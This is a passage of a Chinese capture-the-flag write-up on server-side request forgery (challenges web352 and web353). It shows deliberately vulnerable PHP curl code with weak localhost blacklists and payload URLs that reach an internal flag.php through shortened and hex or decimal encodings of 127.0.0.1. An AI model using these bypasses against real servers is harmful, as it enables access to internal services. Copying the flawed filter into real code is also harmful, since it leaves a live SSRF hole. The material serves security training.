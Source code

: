 ```php
# curl_close — 关闭 cURL 会话
```

`post:url=http://127.0.0.1/flag.php`

### web352

ip地址转换工具`https://tool.520101.com/wangluo/jinzhizhuanhuan/`

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

```text
url=http://127.0.0.1/flag.php
url=http://127.0.1/flag.php
url=http://127.1/flag.php
某些部分被省略,省略部分是默认0

也可以进制转换
url=http://0x7F000001/flag.php
url=http://0x7F.00.00.01/flag.php
url=http://2130706433/flag.php
```

### web353

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
```